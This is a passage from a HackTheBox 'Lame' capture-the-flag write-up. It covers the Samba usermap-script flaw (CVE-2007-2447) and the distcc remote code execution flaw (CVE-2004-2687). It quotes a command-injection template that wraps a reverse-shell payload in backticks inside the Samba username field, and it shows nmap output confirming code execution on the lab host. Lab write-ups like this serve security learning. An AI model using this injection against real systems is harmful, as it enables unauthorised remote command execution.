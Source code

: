 On checking searchsplpoit, we got some exploits for  samba 3.0.
![](/assets/Hackthebox/Lame/1.png)

However,
```bash
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) 
```
seems interesting. This is `CVE-2007-2447`, often referred to as `Samba usermap script`.On checking the script, there seems to be an issue with the `username` field. If we send shell metacharacters into the username we exploit a vulnerability which allows us to execute arbitrary commands.

Going through the code tells us that the script is running the following command, where payload.encoded would be a reverse shell sent back to our attack machine.
```bash
"/=`nohup " + payload.encoded + "`"
```

### Port 3632 distcc v1
Googling `“distcc v1”` reveals that this service is vulnerable to a `remote code execution` and there’s an `nmap script` that can verify that. On executing nmap script, it states that this machine is `vulnerable`.
```bash

#nmap --script distcc-cve2004-2687.nse -p 3632 10.10.10.3 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-11 20:11 +0545 
Nmap scan report for 10.10.10.3 
Host is up (0.31s latency). 
PORT     STATE SERVICE 
3632/tcp open  distccd 
| distcc-cve2004-2687:  
|   VULNERABLE: 
|   distcc Daemon Command Execution 
|     State: VULNERABLE (Exploitable) 
|     IDs:  CVE:CVE-2004-2687 
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C) 
|       Allows executing of arbitrary commands on systems running distccd 3.1 and 
|       earlier. The vulnerability is the consequence of weak service configuration. 
|        
|     Disclosure date: 2002-02-01 
|     Extra information: 
|        
|     uid=1(daemon) gid=1(daemon) groups=1(daemon) 
|    
|     References: 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687 
|       https://distcc.github.io/security.html 
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687 
Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```
